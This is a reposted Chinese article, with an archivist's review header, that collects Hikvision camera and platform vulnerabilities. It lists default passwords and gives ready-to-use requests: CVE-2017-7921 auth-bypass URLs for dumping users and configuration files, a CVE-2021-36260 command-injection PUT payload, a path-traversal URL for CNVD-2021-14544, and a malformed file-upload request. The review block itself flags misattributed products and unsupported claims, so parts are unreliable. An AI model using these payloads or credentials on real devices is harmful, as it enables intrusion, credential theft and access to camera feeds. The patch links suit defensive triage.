# 海康威视常见漏洞汇总

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision摄像机/流媒体/iVMS；夹Haivision及Sigmax
- 本文讨论：CVE-2017-7921、2021-36260、CNVD-2021-14544、api上传、applyCT Fastjson及默认口令
- 版本、权限与配置前提：按子项机型/构建区分；默认密码未改是配置前提
- 资料类型：多产品多漏洞汇总；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 把Haivision Makito X列入海康默认口令表，品牌错误；Sigmax也应独立
- Fastjson补丁给kkFileView issue304，产品明显不匹配
- 作者明确上传与Fastjson未复现并借用截图，后文成功回显不得当该作者验证
- 三台抽样不能支持80%弱口令；配置版本表部分行丢产品映射
- 请求头被断行，上传包name/filename缺失；元数据单CVE覆盖多实体失真
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证
- Haivision Makito X 与 Sigmax 不属于海康产品；该合集中的默认口令条目只作独立产品背景。kkFileView issue 304 与海康 Fastjson 修复不对应，不作为本漏洞修复依据。

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 回连样例可能向外部地址发送网络请求或建立会话；应使用自己的隔离回连服务，DNS/LDAP 到达只能证明相应交互，不能单独证明 RCE

### 待核与来源

- 所有型号矩阵与原截图/官方公告需逐项核对
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/E6flzm2_3UmK62P0BuMxEg)

**声明：**文中涉及到的技术和工具，仅供学习使用，禁止从事任何非法活动，如因此造成的直接或间接损失，均由使用者自行承担责任。

**众亦信安，中意你啊！**

****点不了吃亏，点不了上当，设置星标，方能无恙！****



**背景：**领导某天让我整理下海康威视互联网暴露出来的漏洞，让我写个文档汇总一下，因此有了下文。文末有彩蛋！！

参考链接：  

```
https://mp.weixin.qq.com/s/RIixdCh8fGszPmGS-9rxFw
https://mp.weixin.qq.com/s/mX_7ubt-sNFN0Y-qE4wAGg
https://mp.weixin.qq.com/s/3fWICeosay5XTEEs9iHvmQ
https://mp.weixin.qq.com/s/CEGjTyhphr2GMuK9zpl5bg
https://mp.weixin.qq.com/s/Wveo0X3857mBWFzNOcJHJw

```

**1、海康威视系列产品默认口令**

<table cellspacing="0" cellpadding="0" width="407"><tbody><tr><td width="187" height="13"><p><strong>产品名称</strong><o:p></o:p></p></td><td width="95" height="13"><p><strong>账号</strong></p></td><td width="123" height="13"><p><strong>密码</strong><o:p></o:p></p></td></tr><tr><td width="187" height="27"><p>海康威视综合安防管理平台<o:p></o:p></p></td><td width="95" height="27"><p>admin<o:p></o:p></p></td><td width="123" height="27"><p>Abc123++<o:p></o:p></p></td></tr><tr><td width="187" height="27"><p>海康威视群组对讲服务配置平台<o:p></o:p></p></td><td width="95" height="27"><p>admin<o:p></o:p></p></td><td width="123" height="27"><p>12345<o:p></o:p></p></td></tr><tr><td width="187" height="13"><p>海康威视联网网关<o:p></o:p></p></td><td width="95" height="13"><p>admin<o:p></o:p></p></td><td width="123" height="13"><p>12345<o:p></o:p></p></td></tr><tr><td width="187" height="13"><p>海康威视 流媒体<o:p></o:p></p></td><td width="95" height="13"><p>admin<o:p></o:p></p></td><td width="123" height="13"><p>12345<o:p></o:p></p></td></tr><tr><td width="187" height="13"><p>hikvision (ssh)<o:p></o:p></p></td><td width="95" height="13"><p>admin<o:p></o:p></p></td><td width="123" height="13"><p>12345<o:p></o:p></p></td></tr><tr><td width="187" height="13"><p>Haivision Makito X Decoder (web)<o:p></o:p></p></td><td width="95" height="13"><p>admin<o:p></o:p></p></td><td width="123" height="13"><p>manager<o:p></o:p></p></td></tr></tbody></table>

**2、海康威视配置文件解码 - CVE-2017-7921**

**排查范围：**  

<table cellspacing="0" cellpadding="0" width="420"><tbody><tr><td width="128" height="11"><p><strong>产品类型<o:p></o:p></strong></p></td><td width="291" height="11"><p><strong>影响版本<o:p></o:p></strong></p></td></tr><tr><td width="128" height="23"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2CD2x20(B/C/D)、DS-2CD3x20(B/C/D)<o:p></o:p></span></p></td><td width="291" height="23"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.3.1 build150417-V5.4.23 build161020<o:p></o:p></span></p></td></tr><tr><td width="128" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2CD3x10(C)<o:p></o:p></span></p></td><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.4.0 build160415-V5.4.4 build161105<o:p></o:p></span></p></td></tr><tr><td width="128" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2CD4x2xFWD<o:p></o:p></span></p></td><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.2.0 build140721-V5.4.20 build160714<o:p></o:p></span></p></td></tr><tr><td width="128" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2CD5x<o:p></o:p></span></p></td><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.3.2 build150515-V5.4.4 build161022<o:p></o:p></span></p></td></tr><tr><td width="128" rowspan="2" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2CD2xx5、DS-2CD3xx5<o:p></o:p></span></p></td><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.3.1 build150410-V5.3.3 build150613<o:p></o:p></span></p></td></tr><tr><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.3.5 build150906-V5.4.23 build161020<o:p></o:p></span></p></td></tr><tr><td width="128" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">DS-2DEx、DS-2DFx<o:p></o:p></span></p></td><td width="291" height="11"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">V5.3.1 build150527-V5.4.4 build160927<o:p></o:p></span></p></td></tr></tbody></table>

**排查手段：**  

查看系统所有存在用户列表                           

```
http://ip/Security/users?auth=YWRtaW46MTEKYWRtaW46MTEK

```

auth 内容是 admin:11 的 base64 编码。



获取系统监控快照，不需要进行身份验证。                 

```
http://ip/onvif-http/snapshot?auth=YWRtaW46MTEK

```



下载摄像机配置文件，通过脚本解密配置文件获得账密信息。  

```
http://ip/System/configurationFile?auth=YWRtaW46MTEK

```



解密命令  

```
python3 decrypt_configurationFile.py configurationFile

```

```
github链接：https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor

```

红框中的就是后台登陆的账号密码。                  



****修复方式：****

目前海康威视官方已发布新版本修复该漏洞，请受影响用户尽快更新进行防护。  

```
下载链接：
https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20170314/

```

**3、命令注入漏洞 - CVE-2021-36260**

****排查范围：****

*     易受攻击的网络摄像机固件。
    

<table cellspacing="0" cellpadding="0" width="380"><tbody><tr><td width="116" height="3"><p><strong>产品类型<o:p></o:p></strong></p></td><td width="263" height="3"><p><strong>影响版本<o:p></o:p></strong></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E0<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E0_CN_STD_5.4.6_180112<o:p></o:p></span></p></td></tr><tr><td width="116" height="3"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E1<o:p></o:p></span></p></td><td width="263" height="3"><p>未知<o:p></o:p></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E2<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E2_EN_STD_5.5.52_180620<o:p></o:p></span></p></td></tr><tr><td width="116" height="3"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E4<o:p></o:p></span></p></td><td width="263" height="3"><p>未知<o:p></o:p></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E6<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPCK_E6_EN_STD_5.5.100_200226<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_E7<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPCK_E7_EN_STD_5.5.120_200604<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_G3<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_G3_EN_STD_5.5.160_210416<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_G5<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_G5_EN_STD_5.5.113_210317<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_H1<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_H1_EN_STD_5.4.61_181204<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_H5<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPCP_H5_EN_STD_5.5.85_201120<o:p></o:p></span></p></td></tr><tr><td width="116" height="16"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_H8<o:p></o:p></span></p></td><td width="263" height="16"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">Factory installed firmware mid 2021<o:p></o:p></span></p></td></tr><tr><td width="116" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_R2<o:p></o:p></span></p></td><td width="263" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_R2_EN_STD_V5.4.81_180203<o:p></o:p></span></p></td></tr></tbody></table>

易受攻击的 PTZ 摄像机固件。

<table cellspacing="0" cellpadding="0" width="405"><tbody><tr><td width="124" height="6"><p><strong>产品类型<o:p></o:p></strong></p></td><td width="281" height="6"><p><strong>影响版本<o:p></o:p></strong></p></td></tr><tr><td width="124" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_E7<o:p></o:p></span></p></td><td width="281" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPDEX_E7_EN_STD_5.6.30_210526<o:p></o:p></span></p></td></tr><tr><td width="124" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_G3<o:p></o:p></span></p></td><td width="281" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPDES_G3_EN_STD_5.5.42_210106<o:p></o:p></span></p></td></tr><tr><td width="124" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H5<o:p></o:p></span></p></td><td width="281" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H5_EN_STD_5.5.41_200911<o:p></o:p></span></p></td></tr><tr><td width="124" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H7<o:p></o:p></span></p></td><td width="281" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H7_EN_STD_5.5.40_200721<o:p></o:p></span></p></td></tr><tr><td width="124" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H8<o:p></o:p></span></p></td><td width="281" height="26"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H8_EN_STD_5.7.1_210619<o:p></o:p></span></p></td></tr></tbody></table>

易受攻击的旧固件。

<table cellspacing="0" cellpadding="0" width="401"><tbody><tr><td width="122" height="12"><p><strong>产品类型<o:p></o:p></strong></p></td><td width="278" height="12"><p><strong>影响版本<o:p></o:p></strong></p></td></tr><tr><td width="122" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_R7<o:p></o:p></span></p></td><td width="278" rowspan="5" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">5.4.x<o:p></o:p></span></p></td></tr><tr><td width="122" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_R7<o:p></o:p></span></p></td></tr><tr><td width="122" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_G0<o:p></o:p></span></p></td></tr><tr><td width="122" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPC_H3<o:p></o:p></span></p></td></tr><tr><td width="122" height="13"><p><span lang="EN-US" style="mso-bidi-font-size:10.5pt;font-family:宋体;mso-bidi-font-family:
  宋体;color:black;mso-font-kerning:0pt;">IPD_H3<o:p></o:p></span></p></td></tr></tbody></table>

OEM 固件。

**排查手段：**

漏洞 Poc：

```http
PUT /SDK/webLanguage HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 89
<?xml version="1.0"
encoding="UTF-8"?><language>$(ifconfig -a >
webLib/dd.asp)</language>

```

成功执行命令。  





******修复方式：******

目前海康威视官方已发布新版本修复该漏洞，请受影响用户尽快更新进行防护。

```
下载链接：
https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20210919/

```

**4、任意文件读取漏洞 - CNVD-2021-14544**

****排查范围：****

流媒体管理服务器 V2.3.5。



****排查手段：****

漏洞 Poc：

```
访问如下Url下载 system.ini文件。
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini

```



****修复方式：****

对用户输入的参数进行校验；限定用户访问的文件范围；使用白名单；过滤…/；防止用户进行目录遍历；文件映射，存储和应用分离。

**5、任意文件上传漏洞**

****排查范围：****

iVMS-8700 综合安防



****排查手段：****

漏洞 Poc：

```http
POST /eps/api/resourceOperations/upload?token=构造的token值 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: ISMS_8700_Sessionname=A29E70BEA1FDA82E2CF0805C3A389988
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryGEJwiloiPo
Upgrade-Insecure-Requests: 1
Content-Length: 174
------WebKitFormBoundaryGEJwiloiPo
Content-Disposition: form-data; 
Content-Type: image/jpeg
test
------WebKitFormBoundaryGEJwiloiPo

```

